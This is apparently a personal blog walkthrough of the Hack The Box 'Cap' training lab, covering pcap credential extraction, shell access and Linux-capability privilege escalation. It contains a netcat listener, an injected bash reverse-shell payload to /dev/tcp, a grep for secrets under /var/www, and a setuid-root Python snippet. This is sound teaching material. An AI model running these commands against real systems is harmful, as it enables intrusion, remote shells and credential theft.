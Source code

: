 ```yaml
---
layout: post
title: "Hack The Box: Cap (Easy) — My Experience"
date: 2025-09-10 12:00:00 -0500
categories: [CTF, HackTheBox]
tags: [htb, cap, ctf, walkthrough, enumeration, privilege-escalation]
pin: false
---
```


# Hack The Box: Cap (Easy)

I worked on Cap last month when I wanted something simple and focused. It was a good reminder that basic enumeration and reading the UI carefully often beats overthinking.

> Legal note: These notes reflect my experience on a legal training lab.

## First Impressions
The landing page hinted at packet captures and network stats. That immediately set my mindset: if a web app offers downloadable files, I should assume there’s sensitive data hiding in plain sight.

```bash
# Quick scan
export TARGET=<IP>
nmap -p- -sC -sV -oN nmap_full $TARGET
```

## The Small Win That Opened Everything
Exploring the site led me to a place where I could fetch or view capture files (pcaps). I grabbed what I could and inspected it locally. This box rewards patience: download → inspect → repeat.

```bash
# Pull a capture and inspect
curl -o traffic.pcap "http://$TARGET/data/1"  # path varies, concept is the same

# Quick peeks before opening a GUI
file traffic.pcap
strings -n 8 traffic.pcap | head

# Extract potential HTTP auth hints with tshark
tshark -r traffic.pcap -Y http.authorization -T fields -e http.authorization
```

If HTTP Basic credentials show up, decode and test them. Credentials in captures are more common than we want to admit. After validating, I used them to authenticate (SSH/web) and get a foothold.

## Getting a Shell
Once authenticated, I looked for anything that executed commands or touched the filesystem on my behalf. A tiny misconfiguration was all it took to land a shell.

```bash
# Listener
rlwrap nc -lvnp 4444

# Payload example
;bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'
```

## PrivEsc Thoughts
I kept the same flow I use on easy boxes: check sudo, SUIDs, cron, and app configs. On this host the name “Cap” is a hint—Linux capabilities. Finding a Python binary with `cap_setuid=ep` made escalation straightforward.

```bash
sudo -l || true
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null | grep -i cap_setuid || true
grep -R "PASS\|SECRET\|TOKEN" -n /var/www 2>/dev/null
```

If Python has `cap_setuid=ep`, this tiny script does the job:

```bash
python3 - <<'PY'
import os, pty
os.setuid(0)
pty.spawn('/bin/bash')
PY
```

## Flags
- User flag: collected after foothold
- Root flag: collected after escalation

## What I’d Fix If This Were My App
- Do not expose raw captures without sanitization
- Avoid storing credentials in any capture or log
- Lock down file endpoints and verify authorization

## What Stuck With Me
- Easy boxes still reward slow, careful reading of the UI
- Files you hand to users can leak more than you expect

---

Working in DevOps can feel fast‑paced. I move slower, and that’s sometimes looked down on—but that’s why my changes stick. Not knowing isn’t a bad thing—it forces investigation and growth.



